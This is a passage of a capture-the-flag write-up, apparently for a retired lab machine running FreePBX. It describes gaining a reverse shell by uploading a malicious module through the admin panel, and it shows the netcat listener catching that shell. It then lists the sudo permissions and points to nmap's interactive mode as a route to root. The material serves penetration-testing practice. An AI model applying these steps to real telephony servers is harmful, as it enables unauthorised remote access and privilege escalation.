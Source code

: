 ### FreePBX

However, I was not quite satisfied with the way how I got root. So maybe there is another way to somehow get a reverse shell, now that we have access to the admin panel.

As the admin panel provides the feature for uploading custom modules, I tried to exploit this, by uploading a malicious module containing a reverse shell. And it worked! (credits to: https://github.com/SamSepiolProxy/FreePBX-Reverse-Shell-Module, which basically provided the module. Due to newer version of the FreePBX software, some changes regarding version had to be made. E.g version tags had to be added in the module.xml file and the tar.gz also had to contain the version number in the name)

```
└──╼ $ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 50137
Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 athlon i386 GNU/Linux
 22:30:15 up  2:35,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
sh: no job control in this shell
sh-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

```
sh-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

As user `asterisk`, we can execute several commands with sudo privileges! From my experience, I immediately recognized the nmap command. It can be exploited to obtain root privileges by spawning a shell in interactive mode. If you are not familiar with those commands and want to know which one can be epxloited to escalate your privileges, you can use https://gtfobins.github.io/.
